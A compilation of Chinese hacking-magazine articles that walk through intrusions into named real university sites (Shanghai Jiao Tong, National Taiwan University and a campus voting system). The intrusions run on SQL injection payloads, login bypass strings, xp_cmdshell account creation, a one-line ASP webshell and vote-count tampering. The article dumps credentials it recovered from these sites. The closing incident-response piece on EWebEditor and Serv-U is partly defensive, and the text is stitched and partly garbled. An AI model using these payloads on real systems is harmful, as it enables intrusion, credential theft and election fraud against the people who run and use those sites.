打开交大的首页“www.sjtu.edu.cn”。首页采用的是 PHP+HTML。之所以会出现注入漏洞是因为动态网页造成的，HTML 网页是静态的，不存在注入。PHP 也存在注入漏洞，不过相对于 ASP 来说，概率还是小很多了。但是我们不可以放弃一丝成功的机会，随便打开一个以 PHP 为标志的 URL 地址“http://www.sjtu.edu.cn/newsnet/newsdisplay.php?id=5617”。

在地址栏最后加上一个分号，回车。结果没有出现错误提示。加上“and 1=1”和“and 1=2”后还是返回一个正常页面，这说明不存在漏洞。虽然主站不存在注入漏洞，但我就不相信它的分站都采用 PHP+HTML，总有几个是用 Windows 2000（Windows 2003）+MSSQL（Access）的配置吧。

上海交大的分站少说也有 30 多个，如果每一个都去看要花几个礼拜的时间，所以我只好请我的“助手”Google（谷歌）了。说起来最近 Google 换了中文名还不是一般的难听……输入“学院 site:sjtu.edu.cn”就可以找出所有交大的分院网站。

- www.asom.sjtu.edu.cn（安泰管理学院）
- www.iel.sjtu.edu.cn（网络教育学院）
- www.law.sjtu.edu.cn（法学院）
- www.life.sjtu.edu.cn（生命科学技术学院）
- www.me.sjtu.edu.cn（机械与动力学院）
- www.sfl.sjtu.edu.cn（外国语学院）
- www.smse.sjtu.edu.cn（材料科学与工程学院）
- www.shss.sjtu.edu.cn（人文学院）

通过 LINK 也可以找到一些网站，后来我又回主页看到了一个 Site Map 的链接，进入此链接可以看到所有分院链接。这里告诉我们一个道理，入侵通常也要看看周边情况。

### 2. 寻找漏洞

大家都知道，脚本攻击主要针对的是动态网页。这样的话我们只需要找含有 ASP、PHP、JSP 为标志的 URL 地址，把所有的 URL 地址保存，最后利用三个字符“' and 1=1”、“' and 1=2”来判断是否存在漏洞。

问题出现了，如何从上百个网站中手工找出漏洞？因为不能用工具来扫描，那就只有用 Google Hack 了。其原理非常简单，就是提交一些特殊字符让 Google 来查找，因为是正常的访问，所以隐蔽性相当高。这里有个关键，攻击者要编写出非常简洁而又行之有效的代码，这对初学者有一定的难度。建议初学者先去学 Google 语法知识，最简单的代码如：“asp site:sjtu.edu.cn”或“jsp site:sjtu.edu.cn”等。更多的例子我就不说了，经过一天的查找我终于找到了以下这些有漏洞的网站。

- http://ic.sjtu.edu.cn/（微电子学院）
- http://kejichu.sjtu.edu.cn/（科技处）
- http://sipa.sjtu.edu.cn/（国际与公共事务学院）
- http://shipmuseum.sjtu.edu.cn/（船舶数字博物馆）
- http://gh.sjtu.edu.cn/（工会）
- http://ie.sjtu.edu.cn/（信息检测技术及仪器系）
- http://tiyu.sjtu.edu.cn/（体育系）
- http://985.sjtu.edu.cn/（985工程办公室）
- http://poffice.sjtu.edu.cn/（校长办公室）
- http://ie.sjtu.edu.cn/jc/obs/data/dbbs7.mdb
- http://ddlab.sjtu.edu.cn/（冲压与塑性技术中心）
- http://ee.sjtu.edu.cn/（电子工程系）
- http://em.sjtu.edu.cn/（工程力学教学基地）
- http://sklcm.sjtu.edu.cn/（复合材料国家重点实验室）
- http://kechuang.sjtu.edu.cn/（科创在线）
- http://tm.sjtu.edu.cn/（理论力学）
- http://renji.com/（仁济医院）
- http://ourhome.sjtu.edu.cn/（生活园区）
- http://bioscience.sjtu.edu.cn/（生命科学技术学院）
- http://pami.sjtu.edu.cn/（图像处理与模式识别研究所）
- http://pc.sjtu.edu.cn/（物理实验中心）
- http://www.shxkyy.com/（胸科医院）

一天的踩点，虽然枯燥无味，但是却是入侵里最重要的一步，成败也是由这一步决定的。工夫不负有心人，我不仅找出了 21 个网站的漏洞，还找出一个论坛由于配置不当而造成的安全隐患。更让我吃惊的是号称中国排名第三的名牌大学，其网站的安全性竟如此之差。

### 入侵

好了，接下来我们就来入侵了，面对如此的网站，我决定分别挑选一个 MySQL、一个 Access 和上面提到的 BBS 来进行。因为它们三个分别代表着不同方面的黑客技术，下面我就通过典型例子来分析如何判断数据库类型及进行手工注入。

### 1. SQL 注入攻击（手工）

随便打开 http://shipmuseum.sjtu.edu.cn/ 的一个链接页面，我打开的是：http://shipmuseum.sjtu.edu.cn/zhenghe/zhanx_imglist.asp?zxid=27。如果 1=2 返回错误页面，那么就存在注入漏洞，如图 1 所示。


图1

判断数据库类型：不同数据库函数的注入方法不同，所以事先要判断数据库的类型。一般 ASP 的网站数据库是 Access 和 SQL 的数据库。SQLServer 里有一些系统变量，如果 IIS 服务器提示没有关闭，并且 SQLServer 返回错误提示的话，就可以直接从返回的错误提示中获取数据库的类型。方法是 and user>0，如图 2 所示。


图2

如果提示关闭的话，就从 Access 和 SQLServer 的区别上入手。Access 和 SQL 都有自己的系统表。比如存放数据库中所有对象的表，Access 的系统表在 [MSysObjects] 中，但在 Web 环境下读该表会提示“没有权限”。SQLServer 在表 [sysobjects] 中，在 Web 环境下可以正常读取。在可以注入的情况下，使用下面语句：

- 1) `and (select count(*) from sysobjects)>0`，如图 3 所示。


图3

- 2) `and (select count(*) from msysobjects)>0`，如图 4 所示。


图4

若 1 可以打开，2 为错误，则数据库类型为 SQL。如果 1 和 2 都是错误的，则为 Access。

SQL 注入数据库已经猜出来了，现在我们再回到图 2，从第一句话中就可以看到当前使用的是 SQLServer 数据库，从第二行可知当前的用户名为 bwg。我们现在来查询当前用户的数据信息，在后面加上“having 1=1--”，返回如图 5 所示的页面。


图5

其中 zxk.zxid 就是一个表，名为 zxk，列名为 zxid。继续提交 URL 地址“http://shipmuseum.sjtu.edu.cn/zhenghe/zhanx_imglist.asp?zxid=27 group by zxk.zxid having 1=1--”可以得到如图 6 所示。


图6

又暴出一个列名 zxmc，之后我们再提交“group by zxk.zxid,zxmc having 1=1--”返回页面如图 7 所示。


图7

可得到名 b。就这样一直猜下去，直到把列名猜解出来为止。把列名猜解完后，就要猜解列名内的数据了。读取数据库内数据的命令为：“and (select top 1 列名 from 表名 where 列名=[N])>1”。这里我们提交“and (select top 1 zxmc from zxk where zxmc=1)>1”返回数据如图 8 所示。


图8

说明列表 zxmc 的第 1 条数据为“船”，用这样的方法我们就可以猜解出当前网站管理员的用户名和密码。最后就是找到网站的后台，为了快速有效地找到后台地址我们一般用 Google Hack 技术。最后登录后台地址，因为是友情检测，所以我不便把这么敏感的信息写出来。

对于 SQLServer 的注入，通过数据库查询得到网站管理员的密码，最后控制整个网站。只用到了 SQL 注入的一小部分功能，我们还可以利用 SQL 数据库的许多扩展功能，比如：

- A 用 `and user>0` 判断当前数据库权限。
- B 得当前数据库名：`and db_name()>0`。
- C 如果是 SA 权限，则可以得到执行 DOS 命令的权限，如 `exec master..xp_cmdshell "net user haha haha /add"`，还有许多。

### 2. Access 注入（手工）

> Access 注入远没有 SQL 注入那么难，SQL 相当灵活，相同的注入语法在不同的网站里可能是完全没用的。所以像 Domain3.5 这样非常优秀的注入软件，一般编写软件的作者都已经写了几十种注入语句在软件里，这样才可以对付各种各样的情况。当然 Access 注入远没有 SQL 注入那么好玩，因为 Access 数据库的网站一般能得到的权利很小，最多是一个网站管理员的权限，但是我们仍有可能得到服务器管理员的权限，比如网站对上传文件的限制不严格，我们就可以上传一个加密的 ASP 木马，进而再提权最终得到超级管理员权限。

前面已经讲述了如何判断数据库类型，这里就直接注入了。判断出其网站的数据库类型，如图 9 所示。


注入地址为“http://kechuang.sjtu.edu.cn/iseminar/content.asp?id=67”。Access 注入比较简单，先猜解数据库表名，语法为“and exists (select count(*) from 表名)”，如果加上表名后返回正常就说明表名存在。我们可以从常见的表名中一个个去试。加上 Admin 表名后返回正常说明 Admin 表名存在。URL 地址为：`http://kechuang.sjtu.edu.cn/iseminar/content.asp?id=67 and exists (select count(*) from admin)`，返回正常如图 10 所示。

就是这样一个个地去试，效率很低但是准确率很高。因为是重复工作我就不一一演示了。经过测试，最后得出 Admin、BBS、System 三个表名。Admin 我们可以得到管理员的账号，而 BBS 则可以得到论坛所有用户的账号。

表名猜解完后我们猜解列名，我拿 Admin 来猜解。


其语法为 `and (select count(列名) from 表名)>0`，如果返回错误则列名不存在，正常的话则列名存在。经过几十分钟的奋斗，列名终于被我猜出来了，有三个列名：Id、Username、Password，如图 11 所示。


猜解完列名后，就是猜解列的长度了。其语法格式为：`and (select top 1 len(列名) from 表名)=x`。x 是列值的长度，我们可以让它从 1 开始一直往上加，当猜解到某个数时返回正常，则该列长度就是当前数。当 Username 等于 5 时返回正常，说明 Username 的长度为 5，如图 12 所示。


我用同样的方法得到 Password 的长度为 7。接下来就是猜解用户名和密码了，猜用户名和密码的语句为：`and (select top 1 asc(mid(列名,N,1)) from 表名) X`，X 为 ASCII 码。当我填 x>10 时返回正常，则说明 Username 的第 1 位字符大于 10，如图 13 所示。


当我改为 70 时返回错误说明小于 70，如图 14 所示。


经过快两小时的猜解，终于把 Username 和 Password 的 ASCII 值猜解出来了。Username 的 ASCII 值为：065,079,114,111,110；Password 的 ASCII 值为：099,097,105,122,105,109,097。查一下 ASCII 表就可得出 Username 的值为 Aarom，Password 的值为 caizima。得到用户名和密码后就是找后台。这里我们再次利用 Google Hack 技术，很快就把后台找出来了：“http://kechuang.sjtu.edu.cn/admin/login.asp”。我们进去看看，如图 15 所示。


这里就是网站的后台了，网站的任何东西都可以在这里修改了。当然权限不是很大，只是控制了网站。对于 Access 注入，步骤虽然比较繁琐，但是有路可循，只要按着步骤来就可以了。而 SQL 注入步骤虽较简单，但技巧性太大，不是高手很难熟练地完成 SQL 手工注入。我也是看了别人手工注入法后才完成了 SQL 注入（本人水平太菜），不过一般 SQL 注入后的权限都比较大。

### 防护

针对工具攻击，我们只要把列名或表名设得超过 50 位，那工具就猜解不了。后台地址一定要把默认的和常见的全部改掉，这可以防止被一些工具查后台。针对 Google Hack 技术来找后台，我们还可以修改网页标题和网页内容的一些敏感字，如“登录”“后台”。其实上面的都是治标不治本，因为对于手工注入的话，只要有足够的耐心，不管多复杂都可以猜解出来。前面的 SQL 注入例子我们知道猜解出来的列名为 zxid、bz 等等，如果是用工具的话就猜解不了，因为常见的列名没有 zxid、bz，所以工具并不是什么数据都可以猜解出来。对于手工注入，只有修改源代码来防止注入了。可以去网站下载防注入代码，比如 SQL 通用防注入程序 2.0 完美版。我们在每个有页面漏洞前加一句代码“<!-- #include File='wrsky_sql.asp' -->”就可以实现对用户提交代码进行过滤了。加在 conn.asp 后则对整个网站过滤，而且可以自定义过滤字符，把攻击者的所有动作记录下来。

现在来看看上海交大信息技术系网站的论坛，网址是“http://ie.sjtu.edu.cn/jc/bbs/”。该论坛我是无意中发现的，看到动网论坛我本能地在后面加上它的默认数据库地址，想不到管理员没有改掉，那我就直接下载了，无语……如图 16 所示。它的论坛是 DVBBS SP 7.00 的，我们都知道有一个非常经典的漏洞 Cookie 欺骗。


因为我们已经下载到了它的数据库，所以可以得到经过 MD5 加密了的密文，管理员的 MD5 值为 ae08aabc7069990a。该密码我跑了三天都没有跑出来。后来我在打开数据库时，发现管理员的密码问题为 ckc edar，我的第一反应就是它的密码也应该同密码问题一样。既然得到了密码，就直接登录后台，不用 Cookie 欺骗。如图 17 所示。


下一步就是上传 ASP 木马，7.0 的后台有一个备份数据，我可以利用备份数据的差异来上传木马。考虑到这是友情检测，所以上传木马这一步也不演示了。最后一步就是删除日志走人，毕竟上海交大是中国教育站点的主干网，不敢乱搞。

```asp
<% no download %>
<!-- #include File="wrsky_sql.asp" -->
```

对论坛我们要把默认的数据库地址改掉。还要在数据库的开头加上一句错误的 ASP 语句：`<% no download %>`，这样就可以防止数据库被下载。还要到官方网站下载最新补丁，升级到 7.10 版本。这样就把 Cookie 欺骗、后台数据库备份漏洞都给堵死。至少到目前为止 7.10 是比较安全的。

### 后记

其实入侵远远没有结束。对于 SQLServer 数据库，如果是 SA 的权限那我们就可以做任何事情了；对只有 Public 权限的用户我们可以浏览服务器的任何文件，但没有操控权限。Access 数据库的话可以控制网站，再利用网站漏洞进行提权。比如目前很多网站都有 EWebEditor 这个优秀的在线编辑器，虽然功能相当强大但漏洞比较多，可以利用它来上传 ASP 木马。本篇用到的技术不多，有服务器配置、数据库查询、Google Hack、社会工程学、密码学及 DVBBS 等，而且用得也不是很深。大家只要灵活地运用就可以了。

WTF：每年快放假的时候，学校总是要开展一些评定活动，诸如优秀学生、奖学金获得者、最佳辩手，甚至还有最佳校园歌手。投票的工作基本也不采用原始的小纸条了，全部交给网络来完成。不过有时候，评选出来的结果并不能让大部分同学满意，所以对网络感兴趣的朋友就想到了背地里刷票的方法。

适合读者：脚本爱好者、入侵爱好者

前置知识：无

## 刷票


文／图 awyl

## 投票系统多处漏洞

最近我们学校搞了个校园十佳青年的评选活动，我的好朋友也是候选人之一，自然我要帮他投一票了。进入校园团委在线找到了投票页面，发现实际上还有一个校园之星的投票评选活动，两种方案的设计是完全相同的。进入登录页面后，选择好自己的学院，密码处填写自己的学号，最后输入大名就可以进行投票了，如图1所示。


图1

如果再次输入相同信息进行投票，页面显示已经投过票了。我猜投票后会在数据库里进行登记，登录过程会自动对这个值进行判断，所以一个人只能参与一次投票，如图2所示。


图2

群里的同学发消息说居然有人在图书馆要其他人的学号和姓名进行拉票，如此确实精神可嘉，不过工作量太大，他们这样做还是辛苦了一点。我们是不是可以用脑力劳动代替这种体力劳动呢？

大家应该注意到登录页面下方的“管理员登录”吧，难道管理员对自己的投票系统如此有信心，连登录页面也不隐藏起来？进入管理员登录后，怀着侥幸的心理在账号和密码处同时输入 `'or'='` 回车，竟然就这么进来了，如图3所示。

在管理页面虽然不可以操作票数，但是可以删除候选人和修改他们的资料，还可以添加候选人！坏事咱们就不做了，毕竟如此弱不禁风的系统我也没多大兴趣。不过既然存在这么弱智的漏洞，会不会也可以暴库呢？

图3：候选人票数统计

图3


图4

轻易地获得数据库，这里显示的是数据库绝对路径为 `E:\tuanwei\data\voteData.mdb`，而数据库一定是存放在 vote 目录下，那么在 IE 的地址栏中输入：`http://tuanwei.xxx.edu.cn/vote/data/voteData.mdb`，就可以直接把数据库请到硬盘中好好欣赏了，如图5所示。


图5

数据库里有三个表，分别存放管理员信息、投票信息和所有学生的相关信息。管理员的密码是明文存放的，对我们已经没有任何价值。在存放学生数据的表里存在一个判断值的字段 `stuIsVote`，true 为参与过投票，false 和 0 代表没有进行投票。这样我们搜索 false 和 0 的字段名，就可以利用这些学生的数据信息进行疯狂的刷票了，如图6所示。


其实我们并不需要进入管理页面进行暴库，在候选人名单和资料等多处页面都可以进行暴库。既然存在这样两个低级漏洞，那么是否还存在流行的 SQL 注入呢？我们来看一下此页面 `http://tuanwei.xxx.edu.cn/vote/candDetail.asp?candID=98`，在后面加上“'”后显示出错，剩下的工作交给相关工具进行猜解就可以了，如图7所示。


## 巧妙获得 WebShell

作为一个刚接触网站入侵和网络安全的菜鸟来说，能够深一步地进入服务器才是主要的。由于数据库和 Web 在同一服务器上，拿到 Shell 后我们就可以通过 SQL 语句直接操纵票数了。我把目标定在了团委在线的主站，通过页面确定为一个在线新闻系统，先挂 NBSI 和狂扫描器对网站进行全面扫描，接着随便进入一个新闻页面：`http://tuanwei.xxx.edu.cn/news/view.asp?id=414`，提交“/”和 `and 1=1` 等注入判断字符，页面均返回找不到信息，看来不可注入。此时工具扫描的结果也出来了，找到几个投票系统中存在注入漏洞的页面。再试下暴库如何？把该地址的最后一个 / 改为 `%5c` 提交，通过页面返回的错误信息判断数据库是 Access，并且暴出的似乎只是一个数据库连接文件，如图8所示。

这个 `news.inc.asp` 的名称如此特殊，到底是什么新闻管理系统呢？我们让 seeknot 来告诉我们答案吧。进入 seeknot 网站（`http://www.seeknot.com`）输入 `news.inc.asp` 按照源码名称进行查询，得到了我们需要的结果：三峡在线新闻系统，如图9所示。根据源代码分析，基本可以确定它是该新闻系统 1.6 之前的版本。


既然知道了是 Access 数据库，试一下默认地址 `http://tuanwei.xxx.edu.cn/db/sxzx-net.asp`。顺利下载。打开后可以看到明文存放的管理员账号和密码，如图10所示。


通过首页下方的“管理员登录”进入管理页面，输入数据库中的管理员信息，成功进入网站后台。由于是在线新闻管理系统，所以管理功能比较简单，并无上传和备份数据库功能。不过数据库是 ASP 格式的，所以我们可以在数据库中插入一句话木马。这里我们介绍一个方法，进入“栏目管理”添加一个子类别，这里输入海洋一句话木马 `<%eval(request("#"))%>` 提交，它会在新闻根栏目下产生一个空白栏目，管理员不容易发现。并且我们的一句话木马也可以成功插入到数据库中。最后在一句话后门客户端提交，就可以返回我们的 WebShell 了，如图11所示。


```sql
UPDATE [candidate]
SET iacademy1='1000'
WHERE candID=98;
```

我们已经得到了数据库结构，投票的信息全部存储在 `candidate` 表中。如果我们要修改 `candID` 为 98 的用户的投票数为 1000，直接在数据库中操作执行就可以了。由于投票必须保证合法性，所以我仅仅做了个测试，并未真正改动票数。

## 入侵总结

学校团委服务器使用的 Windows 2000 系统、FSO、Shell、Application、WScript.Shell 都可以成功利用，并且安装了 Serv-U，所以提权过程就不做介绍了。最后说一句，掌握有利的信息，才是入侵成功的关键。

---

适合读者：入侵爱好者、脚本爱好者

前置知识：无

## 渗透台湾大学

文／图 曾云好


前不久在报纸上看到中国大学 IT 排名表，发现有台湾大学。当时倒没什么感觉，但是今天早上起床突然又想到了这个排名，所以就去台湾大学看看。

其实我最关心的是他们学校的安全水平，其他的我又管不了。打开网站 `http://www.ntu.edu.tw/`，这里就进中文版了，毕竟自己的英文太差劲，看起文章来有点费力，最主要是英文和中文的网站结构体系是一样的。

### 查找漏洞

进了主页才知道，原来他们根本就没有计算机学院，倒是有一个“电机资讯学院”如图1所示。也没有所谓的计算机专业这一说法，都是一些什么研究所，分类相对更加详细。不管这么多，今天主要对电机资讯学院进行渗透。

从图1中我们知道它有很多的研究所，这里就不举例了。其实要找网站的漏洞无非就是看它对脚本的过滤是否严格，如果不是很严格，我们就可以见缝插针。

今天我利用的是 Google 来对台湾大学进行网络结构探测，经过为期一天的探测，终于发现了一些漏洞，具体的漏洞有如下。


- 1. 权限设置不严格，导致可以看见服务器上的 Web 目录：  
  `http://www.imm.ntu.edu.tw/`  
  `http://www2.ee.ntu.edu.tw/`

- 2. URL 过滤不严格，导致出现注入漏洞：  
  `http://www.comm.ntu.edu.tw/`  
  `http://ee.ntu.edu.tw/`  
  `http://comm-center.ntu.edu.tw/`  
  `http://nems.ntu.edu.tw/`  
  `http://rdo.ntu.edu.tw/`  
  `http://host.cc.ntu.edu.tw/`  
  `http://mis.cc.ntu.edu.tw/`  
  `http://ann.cc.ntu.edu.tw/`  
  `http://nanost.ntu.edu.tw/`

- 3. 跨站脚本攻击漏洞：  
  `http://host.cc.ntu.edu.tw/rep/newpj.asp`

查找了一天也就这些收获，其他的学院没去看，一个学院就花了一天的时间，其他的都要看那不要人命啊。

### 渗透

- 1. 探测 Web 目录结构

出现该漏洞的原因主要是权限设置不严格，通过它我可以看见 Web 下的所有文件（如图2和图3所示）。就这样，我还看见了它的数据库，把它下载下来看，如图4所示。

里面有用户名和密码等敏感信息。有了密码以后自然就是登录了，这里还发现了邮箱地址，自然我也就想到了密码心理学。看看他的密码和邮箱密码是否相同，如果连他的邮箱也一同破解掉，就能够得到很多东西了。


- 2. 注入攻击：

> 注入漏洞产生的原因主要是程序员在写程序的时候，没有对客户端用户提交的数据进行过滤，从而泄露了很多敏感信息。


## 专题：列举字段（SPECIAL SUBJECT）


查询数据库的表名，经过查询发现只有 `admin` 一个表名。提交 `and exists(select [列名] from [表名])` 来查询数据库的列名，经过一段时间的查询发现有 `username` 和 `password` 两个列名，如图8、图9所示。

在 `http://eoe.ntu.edu.tw/eoe_member/prof_info/Query.asp?IP_PID=6` 后提交 `,and 1=1,and 1=2` 后，我们发现了注入漏洞，如图5、图6所示。


提交 `and user>0`，发现采用的是 ACCESS 数据库，如图7所示。


提交 `and (select top 1 len(列名) from 表名)>...` 数据，判断列的长度，判断出 `username` 的长度为 5，`password` 的长度也为 5。


其实一开始写到这里的时候就不想用手工猜解了，觉得这样很浪费时间，不过用 Domain3.5 来猜解发现根本猜不出来，如图10所示。


后来又用了几个别的工具，发现照样猜不出来。这又一次证明了工具是有局限性的，没办法，继续手工操作吧。

提交 `and(select top 1 asc(mid(列名,列数N,1)) from 表名)` 之类数据，经过我一番艰苦的努力猜解，终于把 username 和 password 的 ASCII 码猜解出来了。他们的 ASCII 码都为 97 100 109 105 110，也就是说用户名和密码都相同，翻译过来就是 `admin`，搞笑的结果。

最后就是找后台地址了，经过一段时间的查找发现了它的后台在这个地方：`http://eoe.ntu.edu.tw/eoe_member/prof_info/login.asp`，如图11所示。


图11

登录看看，如图12所示。


图12

我机器不支持繁体，那些繁体字现在都成乱码了，其实这样的后台见得太多了，权限很低，如图13所示。


图13

没什么好玩的，算了。刚才上面的是 Access 数据库，不怎么好玩，后来我发现有一个网站用的是 SQL 数据库，如图14所示，`http://comm-center.ntu.edu.tw/`。

不光确认了 SQL 数据库，而且还可以从图中看出当前数据库的用户名为“numeric”。因为以前在学习注入的时候，只知道数据库用户名为“dbo”的时候才为 SA 权限，并没有说用户名为 numeric 的时候也是有 SA 权限，所以一开始我也是用手工猜解。后来快猜解完的时候才想到用工具，结果发现是 SA 权限。


图14

用 HDSI 先看看服务器上的文件，如图15所示。


图15

```sql
exec master..xp_cmdshell "net user BAngel BAngel /add"
```

接下来利用命令在数据库中添加一个用户名为 BAngel、密码也为 BAngel 的用户，然后利用数据库连接器连接。当然还可以拿小竹的 NBSI 上传木马，后面的操作用工具差不多就搞定了，其实既然是用工具……我也不好怎么去写了，总之就是一些傻瓜操作啦。

- 3. 跨站：该漏洞我是找了好久才找到，而且其他地方都没有这个漏洞，想来应该是程序员在写代码时候的一个疏忽吧，如图16所示。


图16

## 感想

台湾大学这些漏洞其实是很平常的，但因为它们存在得都比较深，所以我们一般很难发现这些 URL。我用了一天的时间才把台湾大学一个学院的 URL 看完，它实在是太多太杂了，所以很需要我们的耐心。

其实出现这些漏洞也是正常的，因为到目前为止我还没有发现哪个大学的网站没有脚本漏洞。像清华大学存在验证不严漏洞，北京大学和上海交通大学都存在注入漏洞，香港城市大学和中国科学技术大学存在 `'or'='or'` 漏洞等等。真的是：脚本攻防，防不胜防！

---

WTF：最近网上频频报出一些企业网站被入侵的新闻，而受害人往往不知道如何追查出真正的入侵者，以致于公司的损失惨重。如果不幸你所在的单位也遇到这种问题，那么不要着急也不要惊慌，跟随本文一起做一次入侵检测吧。

适合读者：网络爱好者、入侵爱好者、脚本爱好者

前置知识：无

## 实用入侵检测案例

### ——写在学校服务器入侵之后


文/图：于雨夫/xysky

某天突然接到某老师打来的电话，说我把他们部门（某某教育中心）的主页改了，写着“hacker by 下雨天（xysky）”，还留有一些很过分的话。听到这一刻，我脑袋空空的，唯一清醒的就是这件事绝对不是我干的。好在老师对我的印象一直不差，第二天我去和老师讲清楚顺便帮他配置了一下服务器，这件事就这样不了了之，不过我很是郁闷。后来老师说还有一台服务器又被入侵了，希望我能帮忙修补一下，于是就有了这次入侵检测。

### 战争从 EWebEditor 开始

根据老师打电话给我的日期推测，事发时间我们锁定在 14 日前后，锁定时间是为了更快地查出入侵者，大大减小追查的工作量。页面被改当然得去看下 Web 访问记录，所以跑去看了下那几天的 IIS 日志，不过看日志是很头痛的事情啊，如果哪位大哥有比较好的分析工具记得一定告诉我。功夫不负有心人，让我看到了如下的日志，如图1所示。


在 EWebEditor 目录上传了一个 ASA 文件，根据经验，一般上传功能都是上传图片、软件压缩包之类的，所以这里的 ASA 文件肯定有问题。可惜在目录中没找到这个文件，看来是被删除了。试着从 IE 访问了一下 `bishe/admin/` 目录，居然目录可以浏览，可以看到有个 EWebEditor 目录醒目地摆在那里，如图2所示。

以前在许多程序代码中都会看到这个目录，也没怎么去关注，今天看来不得不研究一下了，至少我知道在这里有上传漏洞可以上传 ASA 文件。打开百度搜索，很快找到了 EWebEditor 在线编辑器，其介绍如下：


> EWebEditor 是基于网页的、所见即所得的在线 HTML 编辑器。它能够在网页上实现许多桌面编辑软件（如：Word）所具有的强大可视编辑功能；它是一个真正的绿色软件，不需要在计算机上安装任何的客户端软件；它的易用使得 WEB 开发人员只要一行代码即可完成调用。

功能的确强大，佩服佩服。马上下载回来调试，发现在处理上传图片功能的 `upload.asp` 文件里有如下代码：

```vb
' 检测扩展名的有效性
Sub CheckValidExt(sExt)
    Dim b, i, aExt
    b = False
    aExt = Split(sAllowExt, "|")
    For i = 0 To UBound(aExt)
        If LCase(aExt(i)) = sExt Then
            b = True
            Exit For
        End If
    Next
    If b = False Then
        OutScript(parent.UploadError("提示：\n\n请选择一个有效的文件，\n支持的格式有（"+sAllowExt+"）！"))
        Response.End
    End If
End Sub

' 初始化上传限制数据
Sub InitUpload()
    sType = UCase(Trim(Request.QueryString("type")))
    sStyleName = Get_SafeStr(Trim(Request.QueryString("style")))
    sSql = "select * from ewebeditor_style where s_name='" & sStyleName & "'"
End Sub
```

```vb
oRs.Open "sSql", oConn, 0, 1
If Not oRs.Eof Then
  sBaseUrl = oRs("S_BaseUrl")
  nUploadObject = oRs("S_UploadObject")
  nAutoDir = oRs("S_AutoDir")
  sUploadDir = oRs("S_UploadDir")
  Select Case sBaseUrl
    Case "0": sContentPath = oRs("S_ContentPath")
    Case "1": sContentPath = RelativePath2RootPath(sUploadDir)
    Case "2": sContentPath = RootPath2DomainPath(RelativePath2RootPath(sUploadDir))
  End Select
Else
  OutScript("parent.UploadError('无效的样式ID号，请通过页面上的链接进行操作！')")
End If
oRs.Close
sAllowExt = Replace(UCase(sAllowExt), "ASP", "")
End Sub
```

```vb
If Session("EWebEditor_User") = "" Then
  Response.Redirect "admin_login.asp"
  Response.End
End If
```

把格式保存在数据库里，从数据库里读取上传允许的格式。最后为了防止非法上传文件而过滤了 ASP 的扩展名。看起来很安全，但这种过滤方式很容易被绕过。

Session 欺骗几乎不可能，但这里只是简单判断 `Session("EWebEditor_User")` 是否为空；如果可构造会话，访问后台即可成功。`Replace(UCase(sAllowExt), "ASP", "")` 这种过滤可被 `aaspsp`、`asaspp` 等方式突破。

## 提权还靠 Serv-U 溢出

IIS 日志分析中发现上传的 ASA 文件不见了，随后从杀毒记录中排查到可疑信息，说明系统中可能存在后门或被清理痕迹。

继续排查发现 `CleanIISLog.exe`、`gina.dll` 等可疑文件。结合系统权限与服务配置，推测入侵者可能先获得低权，再通过 Serv-U FTP Server 相关漏洞进行提权。

> 后台管理地址：`http://127.0.0.1/ewebeditor/admin_default.asp`  
> 默认登录用户：`admin`  
> 默认登录密码：`admin`

作者尝试默认账号密码后可进入后台（对应图4），随后说明应在样式管理处上传 ASA 格式木马。并指出修补方式是修改后台用户与密码，避免直接利用上传点。

后台页面均调用 `Admin_Private.asp` 进行验证，其核心验证代码如上所示。

命令就会产生两条关于 Serv-U FTP Server 的事件信息，这里只抓个图证明一下，如图7所示。

想不到提升权限这么轻而易举，加个账号就可以远程桌面连接了，可恶的 Serv-U，看来还得帮它补漏洞……

还可以看到有哪些比较关键的文件被创建，比如 ASP 木马程序等。

3. 在 CMD 下用 `netstat -an` 查看当前的端口连接状态，可以看到哪些端口正在被访问，哪些端口正在监听。运气好也许可以看到入侵者用 3389 连接服务器。如果觉得系统自带的 `netstat -an` 不够用的话，也可以借助比较专业的查看端口或进程工具，如 Fport 就可以看到端口对应的进程文件，其命令如下。

```text
C:\Test\>fport
FPort v2.0 - TCP/IP Process to Port Mapper
Pid   Process        Port  Proto  Path
532   SERVUD~1       -> 21  TCP    C:\FTPSER~1\SERVUD~1.EXE
1316  inetinfo       -> 80  TCP    C:\WINNT\System32\inetsrv\inetinfo.exe
524   svchost        -> 135 TCP    C:\WINNT\system32\svchost.exe
8     System         -> 139 TCP
584   msdtc          -> 1025 TCP   C:\WINNT\System32\msdtc.exe
1316  inetinfo       -> 1028 TCP   C:\WINNT\System32\inetsrv\inetinfo.exe
8     System         -> 1033 TCP
916   Explorer       -> 1098 TCP   C:\WINNT\system32\Explorer.exe
868   sqlservr       -> 1433 TCP   C:\PROGRAM\MICROS~4\MSSQL\Binn\sqlservr.exe
8     System         -> 2254 TCP
```

可以看到有 21、80、1098、1433 等端口，其中 1098 端口对应的就是 Radmin 的远程控制端口。

## 看我七十二变 VS 赶尽杀绝

通过前面的日志，我们已经很清楚地知道入侵者得到了系统管理权限。一般入侵者控制了一台机器以后，都会留下后门程序方便自己下次进入。那么这些程序从哪能发现呢？我一般都是从系统的日志、文件的创建或改动、端口与进程、服务列表、注册表等入手的。

- 1. 从 IIS 日志文件与事件查看器看到的事件信息已经分析过了，就不再说了。
- 2. 利用系统自带的搜索功能，注意利用它的搜索选项，这里就选创建时间吧。结果找到了 Radmin 目录，说明服务器很可能被安装了 Radmin 远程控制软件，如图8所示。

> 在 Windows 系统中，用 Ctrl+Alt+Del 就可以调出任务管理器查看进程了，看到可疑进程就得小心了哦。对付隐藏的进程得用其他办法，比如用 knlps 引擎进程，用 knlps 杀进程，可以杀掉在任务管理器里没有权限结束的进程，万一遇上更厉害的后门程序也可以请出冰刃 IceSword 来。

- 4. 在“运行”里输入 `services.msc` 就可以打开服务列表，需要注意一些比较危险的服务是否被开启。经检查，这台服务器上的 Telnet 服务开放，另外还有 Remote Administrator Service 服务，如图9所示。
- 5. 打开注册表，很轻易就找到关于 Radmin 的记录。在启动项没发现其他可疑的选项，不过还有一个地方要看，那就是注册表的 SAM 项，因为这里很可能有隐藏的账号或者克隆的账户。我在注册表的 SAM 项里发现了带 `$` 的隐藏账号，如图10所示。

图10

经检测发现没有被克隆，至于如何检测，很简单，把用户名对应类型的注册表值导出来用 `fc` 命令对比一下就可以了。

- 6. 最后别忘了检查是否还有 ASP 木马文件的存在。用江民杀毒没查到其他 ASP 木马，但是按时间排序不难发现有文件被修改过，可能是一句话木马吧。还是请出霹雳客图 ASP 站长安全助手吧（用它扫木马非常方便），稍微扫描了一下就发现数学建模的主页被放了一句话木马，如图11所示。

图11

## 善于总结  做好安全

